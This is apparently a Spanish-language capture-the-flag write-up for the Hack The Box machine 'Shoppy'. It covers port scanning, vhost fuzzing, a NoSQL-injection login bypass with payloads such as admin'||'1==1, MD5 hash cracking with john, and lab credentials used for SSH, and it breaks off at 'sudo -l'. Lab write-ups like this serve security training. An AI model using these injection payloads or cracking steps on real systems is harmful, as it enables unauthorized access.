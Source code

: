# Shoppy HTB


Primero que nada nos damos cuenta que tiene 3 puerto abiertos

```
nmap -sSV --open -vvv IP
nmap -sC -p 22,80,9093 IP
```

Esto re direcciona a shoppy.htb lo cual nos da indicios de que podria utilizar vhosting

# Fuzzing

```
wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://shoppy.htb/FUZZ 
```


# Vhost Discovery

Virtual hosting es la capacidad de tener varios subdominos ( *.example.com ) en un mismo servidor 

>El virtualhost, o servidor virtual, es una forma de alojamiento web que permite que varias páginas web puedan funcionar en una misma máquina. Hay dos tipos de virtualhost:

Los que se basan en direcciones IP, donde cada página web tendrá una IP diferente.
***Los que se basan en nombres de dominio, donde una sola dirección IP funcionan varias páginas web.***

Aunque el navegador tendrá que diferenciar el tipo de virtualhost a la hora de gestionar la petición, la elección de una u otra no tiene ningún efecto para el usuario.

## WFUZZ

Para encontrar subdominios cuando sospechamos que se esta usando esta tecnica se fuzzea la header Host en busca de un resultado valido lo que indica un subdominio

```

wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/ 

```

## Gobuster

```
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u http://shoppy.htb 
Funciona tambien asi 
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u shoppy.htb
Tambien asi solo lee bien el output
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb 
```

Encontramos un logging

# No SQL Inyection

De alguna u otra manera ( la cual no entiendo aun) nos dimos cuenta que es una base de datos No SQL MongoDB intentamos unos payloads sencillos.

```
admin'||'1==1
admin'||'1=1
```

Y cualquiera de esos jala. Entramos


# Hash

Ya dentro pues si estas con el usuario admin lo mas logico es que buscaras ese no¿?

```
EL password del usuario admin
hash-identifier
john --format=raw-md5 -w $(locate rockyou.txt)  hashes

admin
emerald 

```

Pero que crees si vuelves a probar una inyeccion te manda no solo el hash de admin si no un usuario josh

```
josh 

remembermethisway

```

## Intrucion

Entramos con el usuario josh al subdominio que encontramos

> http://mattermost.shoppy.htb/shoppy/channels/deploy-machine

Ahi nos damos cuenta que existe un user y pass iniciamos sesion ssh.

```
username: jaeger
password: Sh0ppyBest@pp!
```


Se necesita enumerar los usuarios nos damos cuenta que esta un usuario deploy 

```
sudo -l

```

Ahi nos damos cuenta que comandos se pueden correr




















































